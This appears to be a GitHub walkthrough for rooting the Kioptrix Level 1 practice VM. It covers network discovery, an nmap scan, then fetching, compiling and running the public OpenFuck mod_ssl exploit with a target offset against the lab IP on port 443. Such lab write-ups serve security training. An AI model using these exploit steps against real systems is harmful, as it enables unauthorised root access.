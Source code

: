 ###  Gain root access on this machine:  ###

####  Start the Kioptrix VM on VirtualBox or VMware ####
 ![Kioptrix_Level_1-1](https://user-images.githubusercontent.com/58820314/112413283-9997c200-8d28-11eb-877e-4c53a79bb04e.png)
 
 • Discover the Network to obtain the IP of this machine with : **sudo netdiscover -i eth0** 
 ![1](https://user-images.githubusercontent.com/58820314/112413965-de702880-8d29-11eb-9273-4d0e75b96739.png)

• Ping on this machine using this command: **ping 192.168.3.129** 
     ,,, you will see that no lost packets, the connection is perfect.  
 ![4](https://user-images.githubusercontent.com/58820314/112413553-13c84680-8d29-11eb-9654-0220635a4a13.png)
 
• Next step is to scan for vulnerabilities using **Nmap** by this command: ** nmap -A -T4 192.168.3.129  **
![2](https://user-images.githubusercontent.com/58820314/112413797-79b4ce00-8d29-11eb-8651-8a694eb225e4.png)

 ### we will use this vulnerability with the following steps  ###
#### 1-** Download OpenFuck.c ** ####
git clone https://github.com/heltonWernik/OpenFuck.git
#### 2- ** Install ssl-dev library ** ####
apt-get install libssl-dev
#### 3- ** It's Compile Time ** ####
gcc -o OpenFuck OpenFuck.c -lcrypto
#### 4- ** Running the Exploit ** ####
./OpenFuck
#### 5- See which service you witch to exploit. For example if you need to Red Hat Linux, using apache version 1.3.20. Trying out using the 0x6b option ./OpenFuck 0x6b [Target Ip] [port] -c 40 ####
#### for example: ** ./exploit 0x6b 192.168.3.129 443 -c 40 ** ####
#### The result is shown on the next Image ####
  ![5](https://user-images.githubusercontent.com/58820314/112415035-cb5e5800-8d2b-11eb-9274-bc006230b25c.png)
